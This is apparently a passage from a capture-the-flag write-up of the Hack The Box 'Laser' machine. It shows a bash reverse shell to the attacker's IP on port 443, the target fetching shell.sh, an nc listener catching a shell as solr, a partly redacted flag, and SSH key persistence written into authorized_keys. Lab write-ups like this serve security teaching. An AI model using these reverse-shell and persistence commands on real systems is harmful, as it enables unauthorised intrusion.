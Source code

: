     #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.9/443 0>&1



Then I run the first, and it hangs:



    root@kali# python3 feedengine_pwn1.py 



While it hangs, I run the second one, and it hangs after the second
print:



    root@kali# python3 feedengine_pwn2-better.py 
    feed: "Pushing feeds"

    feed: "Pushing feeds"



On the first print, I see a hit on the webserver:



    10.10.10.201 - - [13/Sep/2020 07:03:00] "GET /shell.sh HTTP/1.1" 200 -



And then before the third print, I get a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.201.
    Ncat: Connection from 10.10.10.201:48190.
    bash: cannot set terminal process group (1099): Inappropriate ioctl for device
    bash: no job control in this shell
    solr@laser:/opt/solr/server$ 



I can now grab `user.txt`:



    solr@laser:/home/solr$ cat user.txt
    77d392f1************************



#### Upgrade

To get a better shell, I wrote my SSH key into
`/var/solr/.ssh/authorized_keys`:



    solr@laser:~$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /var/solr/.ssh/authorized_keys
